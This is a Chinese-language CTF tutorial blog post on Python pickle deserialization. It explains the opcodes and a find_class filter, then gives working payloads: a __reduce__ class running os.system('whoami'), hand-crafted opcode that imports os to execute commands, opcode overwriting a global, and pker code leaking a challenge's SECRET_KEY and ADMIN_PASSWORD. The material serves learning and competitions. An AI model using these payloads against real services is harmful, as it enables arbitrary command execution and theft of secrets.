# Python pickle 反序列化安全简述


## 0x00 前言

最近的比赛遇到过好几次 pickle 反序列化，而且每次都有不同的条件和利用方法，不像 PHP 反序列化有相对固定的操作，就打算简单的总结一下，也方便自己以后断网比赛查资料（x


## 0x01 pickle 基础

> 模块 `pickle` 实现了一个 Python 对象结构的二进制序列化和反序列化。 *"pickling"* 是将 Python 对象及其所拥有的层次结构转化为一个字节流的过程，而 *"unpickling"* 是相反的操作，会将（来自一个 binary file 或者 bytes-like object 的）字节流转化回一个对象层次结构。 pickling（和 unpickling）也被称为“序列化”, “编组” 或者 “平面化”。而为了避免混乱，此处采用术语 “封存 (pickling)” 和 “解封 (unpickling)”。

简单来说，pickle 序列化就是将一个 python 对象变成可以持久化储存的二进制数据，反序列化即为相反的操作，将二进制数据转回 python 对象。

简单的序列化与反序列化可以使用 pickle 模块直接提供的函数

```
pickle.dump(obj, file, protocol=None, *, fix_imports=True, buffer_callback=None)
pickle.dumps(obj, protocol=None, *, fix_imports=True, buffer_callback=None)
pickle.load(file, *, fix_imports=True, encoding="ASCII", errors="strict", buffers=None)
pickle.loads(data, /, *, fix_imports=True, encoding="ASCII", errors="strict", buffers=None)
```

其中前两个函数用于序列化，后两个函数用于反序列化，后缀 `s` 表示序列化数据写入 bytes 变量或反序列化数据来自 bytes-like object，不带后缀 `s` 则表示写入或读取 file object

若要对序列化或反序列化操作进行进一步的自定义，则可以通过继承 pickle 模块提供的序列化与反序列化类并实现一些特殊方法进行处理

```
class pickle.Pickler(file, protocol=None, *, fix_imports=True, buffer_callback=None)
class pickle.Unpickler(file, *, fix_imports=True, encoding="ASCII", errors="strict", buffers=None)
```

这两种方法只能接收 file object 作为写入或读取的参数，可以直接调用对应的 dump 或 load 函数进行操作

CTF 比赛中常通过继承 `Unpickler` 类并实现 `find_class` 方法来对输入进行过滤或修改，从而起到增强安全性的作用

比如 2021 年国赛西南分区赛的这道 Web 题，便是采用了这种方法进行过滤，之后也会以这道题为例介绍反序列化的利用方法

```python
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        # Only allow safe classes
        if module in ['settings'] and "__" not in name:
            return getattr(sys.modules[module], name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

还有一种方法是通过对输入中一些敏感的 opcode 进行过滤，下一章会介绍这些 opcode


## 0x02 opcode 简介

要想深入了解安全问题，当然要从源码开始看起，这里我的 pickle 源码在 `/usr/lib/python3.9/pickle.py` 中

pickle 有多个 Protocol，新的 Protocol 会比旧的多一些 opcode，但目前依然向下兼容，其中 Protocol 1 中 opcode 均为可见字符，之后新的 Protocol 中的 opcode 大部分均为不可见字符，目前最新版本为 Protocol 5，但直到 python3.9 默认使用的仍为 Protocol 4

pickle 源码中列出了各种 opcode 及其进行的操作

```python
# Pickle opcodes.  See pickletools.py for extensive docs.  The listing
# here is in kind-of alphabetical order of 1-character pickle code.
# pickletools groups them by purpose.

MARK           = b'('   # push special markobject on stack
STOP           = b'.'   # every pickle ends with STOP
POP            = b'0'   # discard topmost stack item
POP_MARK       = b'1'   # discard stack top through topmost markobject
DUP            = b'2'   # duplicate top stack item
FLOAT          = b'F'   # push float object; decimal string argument
INT            = b'I'   # push integer or bool; decimal string argument
BININT         = b'J'   # push four-byte signed int
BININT1        = b'K'   # push 1-byte unsigned int
LONG           = b'L'   # push long; decimal string argument
BININT2        = b'M'   # push 2-byte unsigned int
NONE           = b'N'   # push None
PERSID         = b'P'   # push persistent object; id is taken from string arg
BINPERSID      = b'Q'   #  "       "         "  ;  "  "   "     "  stack
REDUCE         = b'R'   # apply callable to argtuple, both on stack
STRING         = b'S'   # push string; NL-terminated string argument
BINSTRING      = b'T'   # push string; counted binary string argument
SHORT_BINSTRING= b'U'   #  "     "   ;    "      "       "      " < 256 bytes
UNICODE        = b'V'   # push Unicode string; raw-unicode-escaped'd argument
BINUNICODE     = b'X'   #   "     "       "  ; counted UTF-8 string argument
APPEND         = b'a'   # append stack top to list below it
BUILD          = b'b'   # call __setstate__ or __dict__.update()
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
DICT           = b'd'   # build a dict from stack items
EMPTY_DICT     = b'}'   # push empty dict
APPENDS        = b'e'   # extend list on stack by topmost stack slice
GET            = b'g'   # push item from memo on stack; index is string arg
BINGET         = b'h'   #   "    "    "    "   "   "  ;   "    " 1-byte arg
INST           = b'i'   # build & push class instance
LONG_BINGET    = b'j'   # push item from memo on stack; index is 4-byte arg
LIST           = b'l'   # build list from topmost stack items
EMPTY_LIST     = b']'   # push empty list
OBJ            = b'o'   # build & push class instance
PUT            = b'p'   # store stack top in memo; index is string arg
BINPUT         = b'q'   #   "     "    "   "   " ;   "    " 1-byte arg
LONG_BINPUT    = b'r'   #   "     "    "   "   " ;   "    " 4-byte arg
SETITEM        = b's'   # add key+value pair to dict
TUPLE          = b't'   # build tuple from topmost stack items
EMPTY_TUPLE    = b')'   # push empty tuple
SETITEMS       = b'u'   # modify dict by adding topmost key+value pairs
BINFLOAT       = b'G'   # push float; arg is 8-byte float encoding

TRUE           = b'I01\n'  # not an opcode; see INT docs in pickletools.py
FALSE          = b'I00\n'  # not an opcode; see INT docs in pickletools.py

# Protocol 2

PROTO          = b'\x80'  # identify pickle protocol
NEWOBJ         = b'\x81'  # build object by applying cls.__new__ to argtuple
EXT1           = b'\x82'  # push object from extension registry; 1-byte index
EXT2           = b'\x83'  # ditto, but 2-byte index
EXT4           = b'\x84'  # ditto, but 4-byte index
TUPLE1         = b'\x85'  # build 1-tuple from stack top
TUPLE2         = b'\x86'  # build 2-tuple from two topmost stack items
TUPLE3         = b'\x87'  # build 3-tuple from three topmost stack items
NEWTRUE        = b'\x88'  # push True
NEWFALSE       = b'\x89'  # push False
LONG1          = b'\x8a'  # push long from < 256 bytes
LONG4          = b'\x8b'  # push really big long

_tuplesize2code = [EMPTY_TUPLE, TUPLE1, TUPLE2, TUPLE3]

# Protocol 3 (Python 3.x)

BINBYTES       = b'B'   # push bytes; counted binary string argument
SHORT_BINBYTES = b'C'   #  "     "   ;    "      "       "      " < 256 bytes

# Protocol 4

SHORT_BINUNICODE = b'\x8c'  # push short string; UTF-8 length < 256 bytes
BINUNICODE8      = b'\x8d'  # push very long string
BINBYTES8        = b'\x8e'  # push very long bytes string
EMPTY_SET        = b'\x8f'  # push empty set on the stack
ADDITEMS         = b'\x90'  # modify set by adding topmost stack items
FROZENSET        = b'\x91'  # build frozenset from topmost stack items
NEWOBJ_EX        = b'\x92'  # like NEWOBJ but work with keyword only arguments
STACK_GLOBAL     = b'\x93'  # same as GLOBAL but using names on the stacks
MEMOIZE          = b'\x94'  # store top of the stack in memo
FRAME            = b'\x95'  # indicate the beginning of a new frame

# Protocol 5

BYTEARRAY8       = b'\x96'  # push bytearray
NEXT_BUFFER      = b'\x97'  # push next out-of-band buffer
READONLY_BUFFER  = b'\x98'  # make top of stack readonly
```

值得一提的是 pickle 中模拟了类似堆栈的内存，所以 opcode 中会看到大量 push 和对 stack 进行的操作，最后栈顶的元素会作为反序列化的结果返回给调用者

早期版本的 pickle (即 V0)由于均为可见字符，被 python 官方称为 ”人类可读”，所以我们就先从最简单的 V0 版本开始学习一些常用的 opcode

在 V0 版本中的序列化数据中，有参数的 opcode 每个参数后会跟一个换行符代表参数的结束

- `(` 为压入一个 mark object，用以构建 tuple、list 等对象或调用函数时标识数据的开始位置

- `.` 为每个 pickle 序列化数据都必须有的结束标识符

- 大部分大写字母对一些常见类型的变量进行 push 操作，将其压入栈顶

  例如 `I` 即为压入整数，接收一个整数参数，其后跟一个换行符表示参数结束

  

- `0` 执行 POP 操作，`1` 针对 mark object 执行 POP 操作，`2` 复制栈顶元素，即将栈顶元素再次入栈

- `d` `l` `t` 分别从栈中数据创建 dict、list、tuple 对象，以 mark object 标识数据开始，并会将数据和 mark object 从栈中移除

  其中 dict 对应数据必须成对出现，以 key-value 的顺序依次入栈

  

  而 list 和 tuple 元素顺序为数据入栈顺序，以 tuple 为例

  

- `}` `]` `)` 分别将空 dict、空 list、空 tuple对象压入栈中，后续可以使用其它方法对这些对象进行操作

  `s` 将栈顶的两个元素以 key-value 的格式放入其后的 dict 中，对应 `dict[key]=value` 操作

  `u` 为添加多个 key-value，操作与 `d` 类似

  

  `a` 将栈顶元素放入其后的 list 中，对应 `list.append(value)` 操作

  `e` 为添加多个元素，操作与 `l` 类似

  ")

- `b` 用于修改栈中的对象，调用对应类设定的 `__setstate__` 函数 (若有) 或默认的 `__dict__.update` 来修改对象的元素，栈顶为调用 update 的参数，需要一个 dict 参数，后一个元素为对应修改的对象

  

- `c` 为最常见的 opcode 之一，其作用可以归结为调用 `find_class` 方法并将结果入栈，其接收两个参数，第一个参数为 `modname`，第二个参数为 `name`

  

- `p` `q` `r` 将栈顶的元素放入 memo (一个临时使用的内存) 中，其接收一个参数，为该元素在 memo 中的索引，区别在于索引的类型不同

  `g` `h` `j` 与之相对应，接收一个参数作为索引，在 memo 中寻找该索引对应的元素放入栈顶

  这三对 opcode 一般用于弹出或修改非栈顶元素时，将栈顶元素临时保存

- `R` 为最常被过滤的 opcode，其由特殊方法 `__reduce__` 产生，对栈顶的 tuple 进行 callable 操作，第一个元素为一个可调用的对象 (一般通过 `c` 获取)，第二个元素为一个 tuple 储存调用的参数

  

- `i` `o` 均用于创建类的实例，也可用于调用方法，其区别在于使用方法和参数传递方法的不同

  测试所用类如下图 (在同一文件下的对象 `modname` 为 `__main__`)

  

  `i` 接收两个参数 (在 opcode 后跟参数)，分别对应 `modname` 与 `name`，创建实例或调用方法所用参数为使用 `i` 时栈内内容，以 mark object 标识数据开始

  

  

  `o` 不接收参数，其使用栈上的元素，以 mark object 标识数据开始，第一个元素为类或可调用的对象，之后的元素为其参数

  

  

  

以上为 V0 版本 pickle 中常用的 opcode，后续版本增加的 opcode 大部分均为对旧版本 opcode 功能的补充，少有大规模的改动，部分新的 opcode 在之后的例题中会介绍到


## 0x03 利用方法

根据我目前遇到过的情况 (一般在 CTF 题中)，pickle 反序列化主要有以下几种常见的利用方法

### 执行恶意命令

执行恶意命令是 pickle 反序列化最简单也是最危险的利用方法，可以直接通过 `__reduce__` 方法进行利用

```python
import os
import pickle

class Evil():
    def __reduce__(self):
        return (os.system, ('whoami',))

print(pickle.dumps(Evil()))
```

将输出的序列化数据进行反序列化即可执行 `os.system('whoami')`，此种方法操作简单但局限性较大，需要反序列化执行环境引入所需的库，且只能执行一次函数调用，因此常使用手写 opcode 的方法进行利用，这里推荐一个库 [pker](https://github.com/EddieIvan01/pker)，可以自动生成 opcode，还是挺方便的

我就以反序列化执行环境未导入 `os` 模块举例，在这种情况下执行 `os.system('whoami')`

```
c__builtin__
getattr
(c__builtin__
__import__
(S'os'
tRS'system'
tR(S'whoami'
tR.
```

其中 1~2 行获取 `__builtin__.getattr` 函数， 3~6 行通过 `__builtin__.__import__` 函数导入 `os` 模块，第 6~7 行获取 `os.system` 函数，7~8 行通过调用 `os.system` 函数实现任意命令执行，成功在未导入 `os` 模块的情况下执行 `os.system` 函数



若使用 pker 库生成，则对应代码为

```python
os = GLOBAL('__builtin__', '__import__')('os')
system = GLOBAL('__builtin__', 'getattr')(os, 'system')
system('whoami')
return
```


### 修改全局变量

通过 `c` 操作码可以获取到任意对象，`b` 操作码可以对任意对象进行修改，此时就可以获取全局对象并进行修改

> 若为普通对象则可以直接用 `b` 操作码进行修改，参考 opcode 简介一节中的介绍

这里讨论 `dict` `list` 等没有 `__dict__` 属性的对象的情况，可以通过获取其 `update` `append` 等函数进行修改，比如下面的示例代码

```python
secret = {'ADMIN': 0}

def get_flag():
    if secret.ADMIN == 1:
        print(flag)
```

这里 secret 是全局对象，假设我们没有正常途径修改这个变量，但是有一个输入可控的 pickle 反序列化，我们就可以通过构造 opcode 修改该变量

构造 opcode 如下，最终调用函数为 `__main__.secret.update({'ADMIN': 1})`

```
c__builtin__
getattr
(c__main__
secret
S'update'
tR((S'ADMIN'
I1
dtR.
```

其中 1~2 行获取 `__builtin__.getattr` 函数，3~4 行获取 `secret` 变量，5~6 行获取 `secret.update` 函数，6~8 行调用该函数将 `ADMIN` 设为 1



若使用 pker 库生成，则对应代码为

```python
secret = GLOBAL('__main__', 'secret')
update = GLOBAL('__builtin__', 'getattr')(secret, 'update')
update({'ADMIN': 1})
return
```


### 获取其它模块中的隐私数据

通过 `c` 操作码还可以获取到其它模块中的隐私数据，比如 2021 年国赛西南分区赛 Web3

```python
from settings import SECRET_KEY, User, ADMIN_PASSWORD

……

@app.route('/load')
def loads():
    data = request.args.get('data', '')
    if data:
        Haha = restricted_loads(base64.b64decode(data))
        assert isinstance(Haha, User)
        if Haha.password == ADMIN_PASSWORD:
            return render_template('index.html', msg=Haha.msg)
        return render_template('index.html', msg="<br>给👴🏻爬")
    return render_template('index.html', msg="<br>儒 雅 随 和")
```

我们可以通过获取 `settings.ADMIN_PASSWORD` `settings.SECRET_KEY` 并分别赋给 `Haha.password` `Haha.msg` 的方法泄露 `SECRET_KEY`，再以此进行后续操作

> 这题不知道为什么直接用 V0 版本的序列化数据会 500 (也有可能是我当时写的有问题)，所以现场分析了一下默认版本 V4 的字节码然后手改了一下最后过了，具体分析详见这篇文章 [CISCN 2021 西南分区赛 Web3 Break&Fix](/posts/ciscn-2021-ws-web3/)

这里就简单写一下应该可以用的 pker 对应代码

```python
User = GLOBAL('__main__', 'User')
Haha = OBJ(User)
Haha.password = GLOBAL('settings', 'ADMIN_PASSWORD')
Haha.msg = GLOBAL('settings', 'SECRET_KEY')
return Haha
```


## 0x04 后记

由于我自己对 Python 的了解程度很一般，用到 pickle 反序列化的地方也不是很多，很多地方理解的不是很到位，写的也不是很清楚，所以这篇随便糊的文章仅供参考，如有错误请大佬们轻喷
